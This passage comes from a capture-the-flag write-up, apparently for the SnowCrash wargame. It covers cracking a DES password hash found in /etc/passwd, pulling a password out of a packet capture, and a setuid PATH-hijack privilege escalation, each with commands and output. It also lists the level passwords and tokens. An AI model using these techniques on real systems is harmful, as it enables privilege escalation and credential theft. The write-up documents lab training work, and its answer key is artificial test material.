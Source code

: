 Contrary to Unix security guidelines, `/etc/passwd` includes a password hash in plain text, as opposed to storing it in `/etc/shadow`. Because the hash is 13 characters long, we suspect it to be a DES hash. Cracking it using [John the Ripper](https://www.openwall.com/john) we obtain the password.

```sh
> john --show <(echo 42hDRfypTqqnw)
abcdefg
```

_Token: f2av5il02puano7naaf6adaaf_
- - - -

## Level 02 
There is a `.pcap` file in our home directory. Examining the packet data contained within using  [Wireshark](https://www.wireshark.org/download.html), we stumble upon the following wireless exchange

![](SnowCrash%20%E2%80%93%20write%20up/Wireshark%202.png)

We need to account for typos made by whoever was entering the password. In ASCII `0x7f` corresponds to `DEL`, and the password is, therefore, `ft_waNDReL0L`.

_Token: kooda2puivaav1idi4f57q8iq_
- - - -

## Level 03 (setuid exploit)
```sh
> ls -l ~
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

We try to exploit the `setuid` flag set on `level03`

```sh
> strings level03
/usr/bin/env echo Exploit me
> ltrace level03
system("/usr/bin/env echo Exploit me"...)
```

The program makes a call `echo`, but doesn’t make sure that  `echo` is what the utility thinks it is, by delegating its search to `/usr/bin/env`. We can exploit this weakness by placing another script named `echo`  on the `$PATH`.

```sh
> chmod 755 .
> echo '#!/bin/bash' >> ./echo; echo 'getflag' >> ./echo
> chmod 755 ./echo
> export PATH="/home/user/level03:$PATH"
> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

_Token: qi0maab88jeaj46qoumi7maus_
- - - -
